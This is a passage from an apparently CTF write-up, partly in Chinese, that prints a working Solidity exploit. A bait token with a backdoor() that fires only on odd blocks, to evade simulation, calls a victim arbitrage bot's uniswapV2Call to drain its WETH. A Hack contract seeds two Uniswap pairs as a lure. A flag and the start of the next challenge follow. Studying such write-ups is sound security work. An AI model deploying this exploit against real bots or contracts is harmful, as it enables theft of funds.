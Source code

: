 ```js
    function backdoor() internal {
        // 区分模拟交易和实际套利交易
        if (!hacked && block.number % 2 != 0) {
            bytes memory data = abi.encode(
                address(this),
                address(this),
                IWETH(weth).balanceOf(address(bot)),
                0,
                true
            );
            bot.uniswapV2Call(address(0), 0, 0, data);
            hacked = true;
        }
    }

    function swap(uint, uint, address, bytes calldata) external {}
}

contract Hack {
    // This will cost a lot of gas uwu
    function exploit(
        IUniswapV2Factory factory1,
        IUniswapV2Factory factory2,
        IWETH weth,
        IUniswapV2Callee bot
    ) external payable {
        HackToken token = new HackToken(bot, address(weth));
        address pair1 = factory1.createPair(address(weth), address(token));
        address pair2 = factory2.createPair(address(weth), address(token));

        weth.deposit{value: msg.value}();

        require(weth.transfer(pair1, 0.1 ether));
        require(token.transfer(pair1, 0.1 ether));
        IUniswapV2Pair(pair1).mint(address(this));

        require(weth.transfer(pair2, 0.1 ether));
        require(token.transfer(pair2, 0.2 ether));
        IUniswapV2Pair(pair2).mint(address(this));
    }
}
```

#### Flag

> flag{S1MUl4t1oN_d0esnt_Gu4r4ntee_EXEcution_c0rr3ctne5555f5b9c201}

### Death's End

- 本小题的 `arbitrage()` 能够保证套利结束后合约持有 `WETH` 增加，其函数功能相当于 `multicall()`

    ```js
    function arbitrage(address[] calldata addressList, bytes[] calldata calldataList) external {
        require(msg.sender == owner, "sender");
        uint balanceBefore = WETH.balanceOf(address(this));
        require(addressList.length == calldataList.length);
        for (uint i = 0; i < addressList.length; i++) {
            (bool success, ) = addressList[i].call(calldataList[i]);
            require(success);
        }
        require(WETH.balanceOf(address(this)) > balanceBefore, "balance");
    }
    ```
